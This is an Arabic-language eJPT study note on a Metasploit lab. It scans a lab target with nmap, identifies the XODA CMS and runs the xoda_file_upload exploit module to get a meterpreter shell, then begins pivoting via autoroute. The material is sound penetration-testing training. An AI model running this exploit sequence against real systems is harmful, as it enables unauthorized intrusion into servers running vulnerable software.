 # Session 6 (ejpt) - Day 6
##  Host & Network Penetration Testing: The Metasploit Framework (MSF) 


السلام عليكم ورحمة الله وبركاته  

اليوم باذن الله راح نبدأ قسم جديد طبعا فيه قسم ماراح نشرحه لانه مو مره مهم في الوقت الحالي
اسم القسم هو Host & Network Penetration Testing:Network-Based Attacks.  

وزي ماهو موضح باعلى الصفحة راح نبدأ اليوم بقسم الـ Metasploit Framework (MSF).  

---  

راح نبداء باللاب الاول الي هو  

T1046 : Network Service Scanning 
---------------------------------|  


راح نبدا باول لاب معنا اليوم طبعا مره مهم اللاب هذا راح نبدا فيه الان باذن الله  


طبعا اخر مدة نخلص فيها الـ eJPTv2 هو الخميس باذن الله  

طبعا الايبي تبعنا زي العاده نفحص الشبكة لكن بنختصر ويكون التارقت  
Target: 192.125.214.3  

الان راح نفحصه بالـ nmap   
[nmap -sV -sC 192.125.214.3]  
-sC = عشان يستخدم الديفولت سكربت نفس اذا كتبنا --script لكن حنا بناخذ الديفولت ماراح نحدد  

طبعا الان نشوف انه عطانا نتيجة ونشوف انه كتب ان الـ http_title: XODA  

XODA هو CMS طبعا وهذا له اكسبلويت تبحث بقوقل بتحصله  

راح نستخدم الـ msfconsole  
[msfconsole]  
[use exploit/unix/webapp/xoda_file_upload]  
[set RHOSTS 192.125.214.3]  
[set TARGETURI /] نحدد هنا مسار الـ CMS نفسه وبحالتنا موجود بالروت  
[exploit] or [run]  


الان نشوف انه عطانا merterpreter session  

الان راح نفتح الـ shell عن طريق كتابة هالامر في الـ msfconsole  
[shell]  
نشوف انه فتح لنا الشيل الان  

الان بنشوف الانترفيسس الموجوده والايبيات  
[ip addr] هذا الامر عشان يعرض لنا الانترفيس كلها والايبي تبع كل وحده  

الان نشوف انه عندنا انترفيس ثانيه وحده داخلين عليها والثانيه مادخلنا عليها  

طبعا لو تجرب تسوي ping على ايبي الانترفيس الثانيه راح تشوف انه فيه رد ف يعني عندك اتصال  

طبعا لو تحاول تأكسس الانترفيس بتشوف انه ماتقدر طبعا لابد نظيفه داخل الـ autoroute  
